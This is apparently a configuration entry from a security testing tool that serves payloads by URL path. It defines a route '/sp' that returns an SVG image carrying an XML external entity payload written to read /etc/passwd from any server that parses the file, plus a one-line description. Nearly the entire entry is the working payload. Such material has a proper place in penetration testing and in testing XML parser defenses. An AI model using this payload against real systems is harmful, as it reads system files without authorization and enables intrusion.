 ```yaml
---
title: XXE SVG Passwd
description: Returns an SVG payload with XXE to get files
weight: 1
pattern: /sp$
is_final: true
data:
  headers:
    Content-Type: image/svg+xml
  body: |
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
    <svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text>
    </svg>

---
```



### /sp

attempts to get /etc/passwd
